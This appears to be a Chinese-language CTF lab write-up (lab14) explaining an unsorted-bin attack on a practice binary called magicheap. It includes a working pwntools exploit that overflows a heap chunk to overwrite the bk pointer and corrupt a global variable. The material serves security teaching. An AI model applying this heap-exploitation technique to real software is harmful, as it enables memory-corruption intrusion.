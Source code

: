 ## lab14  
  
利用unsortbin的bk  
  
首先，释放一个chunk到 unsorted bin 中。  
接着利用堆溢出漏洞修改 unsorted bin 中对应堆块的 bk 指针为 &magic-16，再一次分配chunk的时候就会触发漏洞，会把magic的值改成一个大的数值  
  
对于unsort bin来说，下一次malloc时会先看unsort bin中是否有适合的chunk，找不到的话才会去对应的bin中寻找，此时会顺便把unsort bin的chunk放到对应的bin中。所以无论malloc的大小(大于144)，unsort bin都会有unlink操作。  
  
```python  
#coding=utf-8  
  
from pwn import *  
  
r = process("./magicheap")  
  
def createHeap(size, content):  
    r.recvuntil(":")  
    r.sendline("1")  
    r.recvuntil(":")  
    r.sendline(str(size))  
    r.recvuntil(":")  
    r.sendline(content)  
  
def editHeap(idx, size, content):  
    r.recvuntil(":")  
    r.sendline("2")  
    r.recvuntil(":")  
    r.sendline(str(idx))  
    r.recvuntil(":")  
    r.sendline(str(size))  
    r.recvuntil(":")  
    r.sendline(content)  
  
def delete(idx):  
    r.recvuntil(":")  
    r.sendline("3")  
    r.recvuntil(":")  
    r.sendline(str(idx))  
  
createHeap(0x30, "aaa")  
createHeap(0x80, "bbb")  
createHeap(0x30, "ccc")  
delete(1)  
magic = 0x6020C0  
editHeap(0, 0x100, "a"*0x30 + p64(0) + p64(0x91) + p64(0) + p64(magic - 0x10))  
createHeap(0x80, "bbb")  
r.interactive()  
```  
  
## lab15  
  